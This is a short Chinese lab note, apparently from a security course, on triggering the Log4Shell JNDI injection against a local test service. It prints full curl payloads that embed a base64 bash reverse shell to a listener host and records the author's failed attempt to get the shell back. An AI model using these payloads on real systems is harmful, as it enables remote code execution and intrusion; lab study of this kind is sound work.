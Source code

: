 ![](./pic/shell反弹失败.png)
课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell